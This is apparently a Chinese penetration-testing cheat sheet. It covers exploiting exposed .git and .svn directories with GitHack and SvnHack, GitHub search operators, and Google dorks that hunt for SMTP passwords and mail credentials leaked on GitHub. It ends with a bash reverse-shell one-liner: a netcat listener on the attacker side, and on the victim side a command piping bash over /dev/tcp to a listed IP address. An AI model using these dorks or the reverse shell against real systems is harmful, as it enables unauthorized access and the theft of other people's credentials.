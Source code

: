 GitHack.py是基于python3的语法

dirsearch扫描目录 发现/.git/下有源码泄露

python GitHack.py url../.git/

## 2.SVN

  python SvnHack.py -u url

## 3.DS_Store

## 4.composer.json

## 5.搜索关键字

GITHUB资源搜索：

in:name test        #仓库标题搜索含有关键字 

in:descripton test     #仓库描述搜索含有关键字 

in:readme test       #Readme文件搜素含有关键字 

stars:>3000 test      #stars数量大于3000的搜索关键字 

stars:1000..3000 test    #stars数量大于1000小于3000的搜索关键字 forks:>1000 test      #forks数量大于1000的搜索关键字 

forks:1000..3000 test    #forks数量大于1000小于3000的搜索关键字 size:>=5000 test      #指定仓库大于5000k(5M)的搜索关键字 pushed:>2019-02-12 test   #发布时间大于2019-02-12的搜索关键字 created:>2019-02-12 test  #创建时间大于2019-02-12的搜索关键字 user:test          #用户名搜素 

license:apache-2.0 test   #明确仓库的 LICENSE 搜索关键字 language:java test     #在java语言的代码中搜索关键字 

user:test in:name test   #组合搜索,用户名test的标题含有test的

关键字配合谷歌搜索：

site:Github.com smtp  

site:Github.com smtp @qq.com  

site:Github.com smtp @126.com  

site:Github.com smtp @163.com  

site:Github.com smtp @sina.com.cn 

site:Github.com smtp password 

site:Github.com String password smtp

# 5.反弹shell

### bash反弹shell

```
攻击者：nc -lvp 9999

受害者：bash -i >& /dev/tcp/192.168.239.128/9999 0>&1
```
